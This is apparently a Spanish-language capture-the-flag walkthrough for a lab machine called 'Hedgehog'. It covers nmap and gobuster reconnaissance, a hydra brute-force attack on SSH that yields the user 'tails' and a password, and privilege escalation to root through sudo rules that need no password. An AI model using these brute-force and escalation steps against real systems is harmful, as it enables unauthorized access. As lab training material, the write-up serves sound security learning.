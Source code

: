 # Hedgehog
## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.6p1 Ubuntu`
*   `80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
## 2. Enumeración Web y Búsqueda de Credenciales

Al acceder a la dirección IP del objetivo en un navegador web, la página muestra una pista importante.

### 2.1. Pista en la Página Web

La página web en `http://<IP_DEL_OBJETIVO>` muestra la palabra "tails". Esto sugiere que "tails" podría ser un nombre de usuario en el sistema, probablemente para el servicio SSH.

### 2.2. Enumeración de Directorios

Realizamos una enumeración de directorios con `gobuster` para buscar más pistas en el servidor web, pero no encontramos nada relevante para el acceso inicial.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO> -w /path/to/wordlist/directory-list-lowercase-2.3-medium.txt
```

La fuerza bruta es la siguiente opción lógica para obtener la contraseña del usuario `tails`.

## 3. Acceso Inicial (Fuerza Bruta SSH)

Utilizamos `hydra` para intentar adivinar la contraseña del usuario `tails` en el servicio SSH, usando un diccionario de contraseñas común como `rockyou.txt`.

```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   La contraseña obtenida es `3117548331`.

### 3.1. Conexión SSH

Con las credenciales obtenidas (`tails:3117548331`), nos conectamos al servidor SSH.

```bash
ssh tails@<IP_DEL_OBJETIVO>
# Contraseña: 3117548331
```

## 4. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `tails`, el objetivo es escalar privilegios a `root`.

### 4.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `tails` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `User tails may run the following commands on ...: (sonic) NOPASSWD: ALL`

Esto significa que el usuario `tails` puede ejecutar cualquier comando como el usuario `sonic` sin necesidad de contraseña.

### 4.2. Escalada de Privilegios Horizontal

Podemos obtener un shell como `sonic`.

```bash
sudo -u sonic /bin/bash
# Ahora estamos como el usuario sonic

sudo -l
```

```bash
User sonic may run the following commands on fd41cefc8882:
    (ALL) NOPASSWD: ALL

sudo su
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
